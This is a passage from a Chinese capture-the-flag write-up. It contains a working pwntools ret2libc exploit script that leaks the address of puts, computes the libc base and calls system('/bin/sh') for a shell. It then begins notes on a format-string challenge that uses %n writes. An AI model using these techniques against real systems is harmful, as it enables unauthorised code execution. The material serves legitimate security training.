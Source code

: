 ```plain

rdi = 0x401423
puts_got = 0x404018
puts_plt = 0x4010B0
ret = 0x040101a
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)

itr()
```

## ezfmt string

### 思路

[![](assets/1708654729-6e9c9f67f6055d0ed6cc9fd9d4e19c62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012239-a586336c-d014-1.png)

[![](assets/1708654729-7d5e8cd3ac9952c46295f09128a061f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012246-aa1fbcea-d014-1.png)  
过滤字符'p'和's',使用这里就是让用'n'来直接修改  
还给了个后门  
[![](assets/1708654729-f1581cda4a5816779dfe93a5d8cdae2c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012255-af27429e-d014-1.png)
